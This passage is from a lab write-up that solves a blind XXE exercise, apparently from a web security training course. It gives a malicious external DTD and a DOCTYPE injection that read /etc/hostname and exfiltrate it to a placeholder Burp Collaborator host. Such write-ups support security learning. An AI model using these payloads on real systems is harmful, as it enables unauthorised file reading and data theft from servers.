 In the Burp Collaborator client window click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Exploiting blind XXE to exfiltrate data using a malicious external DTD

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, exfiltrate the contents of the /etc/hostname file

Created a malicious payload into a DTD file

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Host the file using a webserver or Burp Collaborator

Intercepted the Check stock request and modified it to refer to the malicious DTD

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

You can poll the Burp Collaborator or view the web server instance for interactions.

You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.
